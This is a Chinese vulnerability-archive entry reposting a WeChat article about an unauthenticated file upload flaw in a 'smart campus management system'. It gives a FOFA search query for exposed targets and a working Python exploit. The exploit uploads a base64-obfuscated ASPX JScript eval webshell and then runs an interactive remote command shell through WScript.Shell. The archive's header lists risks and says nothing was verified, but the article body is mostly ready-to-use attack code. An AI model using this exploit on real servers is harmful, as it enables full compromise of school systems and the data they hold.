




# 智慧校园管理系统（发行方未知） DC_OA_WJG Upload公开注册上传执行

> 指纹字段校订（2026-10-04）：按原归档正文的明确平台标签及完整表达式恢复当前查询，旧误填或截取字段逐字保存在 `previous_*`；后文对此旧字段的诊断按当前字段阅读。仅经过本库保守语法与原字面核对，未在线运行查询，不把指纹命中视为漏洞存在。

## 条目说明

- 对象与具体问题：智慧校园管理系统（发行方未知）；DC_OA_WJG Upload公开注册上传执行
- 版本、配置及部署条件：JScript/ActiveX与IIS配置，版本未知
- 认证与权限前提：注册入口匿名声称
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- Base64 multipart为JScript eval后门，脚本上传后进入无限命令交互，绝非只读检测；缺清理/退出说明
- true+path+200只判断上传声明，执行另依赖ASPX/ActiveX支持；命令拼URL未编码可能破坏请求
- 无固定版本/补丁，title/目录取通用名称需真实发行方；删推广

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/ceVqiqWlXTI4h___Bpkjtg)


**推荐**公众号**啦🐑**

公众号

**一****：漏洞描述🐑**

**智慧校园管理系统前台注册页面存在文件上传，由于没有对上传的文件进行审查导致可上传恶意文件控制服务器**

**二:  漏洞影响🐇**

**智慧校园管理系统**

**三:  漏洞复现🐋**

**FOFA 语句: body="DC_Login/QYSignUp"**

```
登录页面如下，只要存在企业用户注册就可能出现漏洞,
注意下部分页面没有注册点击位置，但是存在  /DC_OA_WJG/Upload 上传接口
```




这个地方的上传附件允许了任意文件上传，包括 aspx 木马，上传后还会返回 webshell 地址  



上传的是冰蝎木马，直接连接



****四:  漏洞 POC🦉****

```
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 智慧校园管理系统                                            \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/DC_OA_WJG/Upload"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryNxqOHxbHqt9mf7s5",
    }
    data = base64.b64decode("LS0tLS0tV2ViS2l0Rm9ybUJvdW5kYXJ5TnhxT0h4YkhxdDltZjdzNQpDb250ZW50LURpc3Bvc2l0aW9uOiBmb3JtLWRhdGE7IG5hbWU9InVwRmlsZSI7IGZpbGVuYW1lPSJQZWlRaS5hc3B4IgpDb250ZW50LVR5cGU6IGFwcGxpY2F0aW9uL29jdGV0LXN0cmVhbQoKPHNjcmlwdCBsYW5ndWFnZT0iSlNjcmlwdCIgcnVuYXQ9InNlcnZlciI+ZnVuY3Rpb24gUGFnZV9Mb2FkKCl7ZXZhbChSZXF1ZXN0WyJQZWlRaSJdLCJ1bnNhZmUiKTt9PC9zY3JpcHQ+CgotLS0tLS1XZWJLaXRGb3JtQm91bmRhcnlOeHFPSHhiSHF0OW1mN3M1LS0=")
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/DC_OA_WJG/Upload 尝试上传木马..... \033[0m".format(target_url))
        if 'true' in response.text and 'path' in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 成功上传 Webshell文件\033[0m".format(target_url))
            webshell_path = re.findall(r'"path":"(.*?)"', response.text)[0]
            print("\033[32m[o] Webshell文件地址: {}/{} \033[0m".format(target_url, webshell_path))
            while True:
                Cmd = str(input("\033[35mCmd >>> \033[0m"))
                cmd_url = target_url + "/" + webshell_path + "?PeiQi=Response.Write(new%20ActiveXObject(%22WSCRIPT.Shell%22).exec(%22cmd%20/c%20{}%22).StdOut.ReadAll());".format(Cmd)
                requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
                response = requests.get(url=cmd_url, data=data, headers=headers, verify=False, timeout=5)
                print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
        else:
            print("\033[31m[x] 目标 {} 上传Webshell文件失败\033[0m".format(target_url))
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```



最后
--

> 下面就是文库的公众号啦，更新的文章和重大的漏洞都会在第一时间推送在公众号和交流群中，想要加入交流群的师傅加我好友拉你啦~
> 
> 别忘了 Github 下载完给个小星星⭐
> 
> https://github.com/PeiQi0/PeiQi-WIKI-POC

公众号

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
